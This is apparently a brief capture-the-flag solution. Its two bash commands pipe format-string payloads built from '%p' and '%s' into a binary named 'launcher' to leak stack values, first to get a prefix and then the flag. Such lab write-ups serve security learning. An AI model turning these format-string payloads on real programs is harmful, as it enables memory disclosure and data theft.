 # Get prefix:
```bash
echo "%p %p %p %p %p%s" | ./launcher
```

# Get flag:
```bash
echo "%p %p %p %p %p %p%s" | ./launcher
```
